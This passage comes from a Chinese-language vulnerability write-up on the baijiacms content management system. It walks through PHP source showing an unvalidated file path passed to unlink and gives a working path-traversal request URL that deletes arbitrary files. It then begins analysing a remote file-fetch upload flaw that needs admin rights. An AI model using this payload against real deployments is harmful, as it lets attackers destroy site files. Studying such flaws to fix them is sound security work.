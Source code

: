 ```
            $oss = new baijiacms_oss();
            $oss->deletefile($file_relative_path);
            return true;
        }
    } else {
        if (is_file(SYSTEM_WEBROOT . '/attachment/' . $file_relative_path)) {
            unlink(SYSTEM_WEBROOT . '/attachment/' . $file_relative_path);
            return true;
        }

    }
    return true;
}
```

传进来的参数是可控的,只要进到这个else那就可以unlink删除任意文件了

### 漏洞利用

这里的漏洞利用只能直接用payload进行利用了

```
http://127.0.0.1/baijiacms-master/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../test.txt
```

在网站根目录下创建test.txt，直接用payload打即可删除文件

如果没有删除可以考虑在改界面将远程附件改为本地`$settings['system_isnetattach']`是远程附件

![image-20220207002035971](images/12.png)

## 远程文件上传漏洞

### 利用条件

- 需要管理员权限
- 需要远程靶机上有文件

### 代码分析

system/public/class/web/file.php

```
if ($do == 'fetch') {
    $url = trim($_GPC['url']);
    $file = fetch_net_file_upload($url);
    if (is_error($file)) {
        $result['message'] = $file['message'];
        die(json_encode($result));
    }

}
```
